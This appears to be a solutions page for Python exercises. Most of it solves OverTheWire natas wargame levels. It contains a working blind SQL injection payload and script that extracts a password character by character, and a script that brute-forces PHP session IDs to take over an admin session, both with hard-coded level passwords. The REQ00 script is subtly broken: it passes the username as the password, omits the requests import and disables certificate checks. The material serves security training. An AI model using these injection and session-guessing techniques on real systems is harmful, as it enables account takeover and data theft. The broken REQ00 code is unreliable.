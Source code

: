 Solutions
======================================================


.. _FIL00_solution:

Solution to FIL00
-----------------------------

Working script
____________________________

.. code-block:: python

    import random

    with open('input.txt', 'w') as f:
        for i in range(10):
            f.write(str(random.randint(1, 10)) + '\n')

    with open('input.txt') as f_in, open('output.txt', 'w') as f_out:
        for l in f_in:
            f_out.write(int(l)*"X" + '\n')

.. _REQ00_solution:

Solution to REQ00
-----------------------------

Working script
____________________________

.. code-block:: python

    from requests.auth import HTTPBasicAuth
    from credentials import username, username

    URL = "https://userdatabase.lsy.pl/employees/report/employee/active"

    auth = HTTPBasicAuth(username, username)

    r = requests.get(URL, auth=auth, verify=False) # to ignore certificate warnings

    print(r.status_code)

.. _REQ01_solution:

Solution to REQ01
-----------------------------

Malicious query
____________________________

The user input that would escape the original query, and add the additional condition on the password is (for the first letter assumed to be "A"):

.. code-block:: sql

    'natas16" AND password LIKE BINARY "A%'

The full query will have then the form

.. code-block:: sql

    SELECT * from users where username="natas16" AND password LIKE BINARY "A%"


Working script
____________________________

.. code-block:: python

    import requests
    from requests.auth import HTTPBasicAuth

    chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

    URL = "http://natas15.natas.labs.overthewire.org"

    auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

    template = 'natas16" AND password LIKE BINARY "{}%'

    letters = ""

    for _ in range(32):
        for letter in chars:
            payload = {"username":template.format(letters+letter)}
            r = requests.get(URL, auth=auth, params=payload)
            if "This user exists" in r.text:
                letters += letter
                print(letters)
                break

    print("Password found {}".format(letters))

.. _REQ02_solution:

Solution to REQ02
-----------------------------

Working script
____________________________

.. code-block:: python

    import requests
    from requests.auth import HTTPBasicAuth
    import re

    URL = "http://natas18.natas.labs.overthewire.org"
    auth=HTTPBasicAuth('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

    for sess_id in range(10000):
        print("Trying session ID {}".format(sess_id))
        cookie = {"PHPSESSID":str(sess_id)}
        payload = {"username":"x", "password":"y"}
        r = requests.get(URL, auth=auth, cookies=cookie, params=payload)
        if "You are logged in as a regular user." not in r.text:
            print("Admin session ID found {}".format(sess_id))
            password = re.search("Password: ([A-Za-z0-9]{32})", r.text)
            if password:
                print("Password: "+password.group(1))
            else:
                print("Password not found in the response")
                print(r.text)
            break
        else:
            print("FAILED")
    else:
        print("Brute force on Session ID failed")
